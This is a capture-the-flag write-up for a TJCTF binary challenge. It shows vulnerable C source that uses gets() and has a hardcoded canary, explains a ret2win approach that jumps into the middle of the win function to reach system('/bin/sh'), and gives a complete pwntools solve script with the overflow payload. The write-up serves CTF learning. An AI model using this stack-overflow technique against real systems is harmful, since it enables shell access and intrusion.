

This was a challenge that I solved in TJCTF, a CTF run by TJCSC, the cyber club at one of America's top high schools. This was a binary pwnable, and they were kind enough to provide the source code:

```c
#include <stdio.h>
#include <stdlib.h>

void gadget() {
    asm("push $0x69;pop %rdi");
}


void win(int secret) {
    if (secret == 0xA1B2C3D4) {
        system("/bin/sh");
    }
}


int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    unsigned int canary = 0xDEADBEEF;

    char buf[64];

    puts("I made a canary to stop buffer overflows. Prove me wrong!");
    gets(buf);

    if (canary != 0xDEADBEEF) {
        puts("No stack smashing for you!");
        exit(1);
    }


    return 0;
}
```

## First assessment
We can see that they introduce a stack canary, which detects any attempts at a stack based buffer overflow. There is also a call to `gets`, which as we know is a dangerous function which performs no bounds checking on user input. There is also a win function, which means that if we manage to redirect code execution to that address, we will be able to solve the challenge.

## Thought process
Obviously this is a ret2win challenge; when main returns, it doesn't immediately end the program but returns to another function which in turn calls some exit routines. If we change the address of the return function on the stack to win, we win! However, we have to bypass the canary. Luckily it is hardcoded, so we just have to spam the stack with the value `0xDEADBEEF` and we will eventually pass the check while being able to jump anywhere.

## Cheese
You might notice that they have an assembly gadget that allows you to set `$rdi`. However, that is unnecessary because we aren't constrained to jumping to the start of a function without CET. We can jump into the middle and bypass the check for secret and get straight to that `system("/bin/sh");`.

## Solve script
Here is my solver, which is written with the exploit library pwntools:
```py
#!/usr/bin/env python3
from pwn import *

elf = ELF("./birds")

r = elf.process()
# r = remote(*"tjc.tf 31625".split())

if args.GDB:
    context.terminal = ["tmux", "splitw", "-h"]
    gdb.attach(r, "c")

win_addr = elf.sym.win + 24
ret = elf.sym.win + 41

payload = b"A" * 76
payload += p32(0xDEADBEEF)
payload += b"A" * 8
payload += p64(win_addr)

r.sendlineafter(b"!", payload)

r.interactive()
```
